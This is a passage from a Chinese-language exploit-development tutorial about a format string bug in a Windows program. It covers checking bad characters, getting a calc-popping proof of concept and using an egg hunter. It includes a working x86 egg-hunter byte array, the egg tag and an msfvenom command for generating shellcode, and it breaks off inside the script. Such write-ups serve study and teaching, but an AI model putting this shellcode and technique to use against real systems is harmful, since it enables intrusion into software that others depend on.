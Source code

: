 一旦我们运行这个漏洞 w00t！我们会得到我们的计算器

![](img/bfd3b8161928453846706994f5fe3a17.png)

不如我们用一个鸡蛋猎人来找到我们的外壳代码？

有人可能会说我们可以使用一个长跳转，或者我们可以直接将外壳代码放在开头。但是，我还是想到用这个来娱乐和好奇。

![](img/b10d71b503232bab96f1f2fb3aa9d47e.png)

首先，我检查了坏字符，发现" *\x00\x09\x20* "是这个程序中的坏字符。这是鸡蛋猎人的漏洞。请注意，在不同的 Windows 平台中，偏移量可能会有所不同。

```
<#
# Author: [@OsandaMalith](http://twitter.com/OsandaMalith)
# Website: [https://osandamalith.com](https://osandamalith.com)
# Egg hunter for the format string bug
#>
[Byte[]] $egg = 0x66,0x81,0xca,0xff,0x0f,0x42,0x52,0x6a,0x02,0x58,0xcd,0x2e,0x3c,0x05,0x5a,0x74,0xef,0xb8,0x54,0x30,0x30,0x57,0x8b,0xfa,0xaf,0x75,0xea,0xaf,0x75,0xe7,0xff,0xe7
$shellcode = ([system.Text.Encoding]::ASCII).GetBytes('W00TW00T')
#msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f powershell -e x86/alpha_mixed
```